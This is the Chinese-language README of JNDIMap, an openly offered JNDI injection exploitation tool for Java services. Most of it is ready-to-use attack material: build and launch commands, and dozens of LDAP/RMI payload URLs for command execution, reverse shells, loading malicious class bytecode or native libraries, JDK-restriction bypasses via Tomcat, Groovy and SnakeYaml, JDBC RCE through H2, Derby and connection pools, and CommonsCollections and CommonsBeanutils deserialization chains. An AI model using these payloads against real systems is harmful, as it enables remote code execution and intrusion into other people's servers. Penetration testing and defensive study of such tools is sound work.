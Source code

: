# JNDIMap

JNDIMap 是一个 JNDI 注入利用工具, 支持 RMI 和 LDAP 协议, 包含多种高版本 JDK 绕过方式

目前支持以下功能

- DnsLog
- 命令执行
- 原生反弹 Shell (支持 Windows)
- 加载自定义 Class 字节码
- Tomcat/Groovy/SnakeYaml Bypass
- Commons/Tomcat DBCP, Druid JDBC RCE
- NativeLibLoader 加载动态链接库
- MLet 探测可用 Class
- LDAP 反序列化

## Compile

目前 Release 版本暂未发布, 推荐手动编译

```bash
git clone https://github.com/X1r0z/JNDIMap
cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## Usage

```bash
Usage: java -jar JNDIMap.jar [-i <ip>] [-r <rmiPort>] [-l <ldapPort>] [-p <httpPort>] [-h]
````

`-i`: 服务器监听 IP (即 codebase, 必须指定为一个目标可访问到的 IP, 例如 `192.168.1.100`, 不能用 `0.0.0.0`)

`-r`: RMI 服务器监听端口, 默认为 `1099`

`-l`: LDAP 服务器监听端口, 默认为 `1389`

`-p`: HTTP 服务器监听端口, 默认为 `3456`

`-h`: 显示 Usage 信息

## JNDI URL

注意传入的 Base64 均为 **Base64 URL 编码**, 即把 `+` 和 `/` 替换为 `-` 和 `_`

以下路由除 `/Deserialize/*` (LDAP 反序列化) 以外, 均支持 RMI 和 LDAP 协议

对于 RMI 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `rmi://127.0.0.1:1099/` 即可

```bash
# DnsLog
ldap://127.0.0.1:1389/Basic/DnsLog/xxx.dnslog.cn

# 命令执行
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# 从字符串/服务器上的某个路径加载自定义的 Class 字节码
ldap://127.0.0.1:1389/Basic/FromCode/<base64-java-bytecode>
ldap://127.0.0.1:1389/Basic/FromPath/<base64-path-to-evil-class-file>

# 反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444

# 以下 Bypass 方式支持 Basic 所有功能

# Tomcat Bypass
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Groovy Bypass
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator

# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator

# MLet 探测可用 Gadget
# 如果 com.example.TestClass 这个类存在, 则 HTTP 服务器会接收到一个 /com/example/TestClass_exists.class 请求
ldap://127.0.0.1:1389/MLet/com.example.TestClass

# NativeLibLoader 加载动态链接库
# 需要通过其它方式在目标机器上写入一个 dll/so/dylib, 然后通过 NativeLibLoader 加载
# 注意传入的 path 为绝对路径, 且不能包含后缀名
# 例如: 服务器上存在 /tmp/evil.so, 则 path 为 /tmp/evil
ldap://127.0.0.1:1389/NativeLibLoader/<base64-path-to-native-library>

# Commons/Tomcat DBCP, Alibaba Druid JDBC RCE
# 将以下的 Factory 替换为 CommonsDbcp1, CommonsDbcp2, TomcatDbcp1, TomcatDbcp2, Druid 其中之一

# H2 RCE
# 三种方式: CREATE ALIAS/Groovy/JavaScript (ScriptEngine)
ldap://127.0.0.1:1389/Factory/H2/Alias/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/Groovy/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JavaScript/open -a Calculator

# Derby 反序列化 RCE
# 先创建数据库
ldap://127.0.0.1:1389/Factory/Derby/Create/<database>
# 然后指定 Slave Server 的信息, database 即为上面创建的数据库名称
ldap://127.0.0.1:1389/Factory/Derby/Slave/<ip>/<port>/<database>
# JNDIMap 提供了 DerbyServer 类用于快速启动 Derby Server 并发送恶意序列化数据 (见 README 末尾)

# 自定义数据 反序列化
ldap://127.0.0.1:1389/Deserialize/<base64-serialize-data>

# CommonsCollectionsK1 反序列化 (3.1 + TemplatesImpl), 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444

# CommonsCollectionsK2 反序列化 (4.0 + TemplatesImpl), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 反序列化 (3.1 + Runtime.exec), 仅支持命令执行
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# CommonsCollectionsK4 反序列化 (4.0 + Runtime.exec), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils1NoCC 反序列化 (1.9.4, 无需 commons-collections 依赖), 使用 TemplatesImpl, 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/ReverseShell/127.0.0.1/4444
```

## Server

快速启动 Derby Server, 用于配合 Derby 反序列化 RCE

```bash
Usage: java -cp JNDIMap.jar map.jndi.server.DerbyServer [-p <port>] [-g <gadget>] [-f <file>] [-h]
```

`-p`: Derby Server 监听端口, 默认为 `4851`

`-g`: 指定 Gadget, 如 `/CommonsCollectionsK1/Command/open -a Calculator` (即上面以 `/Deserialize/` 开头的路由)

`-f`: 指定自定义序列化数据文件

`-h`: 显示 Usage 信息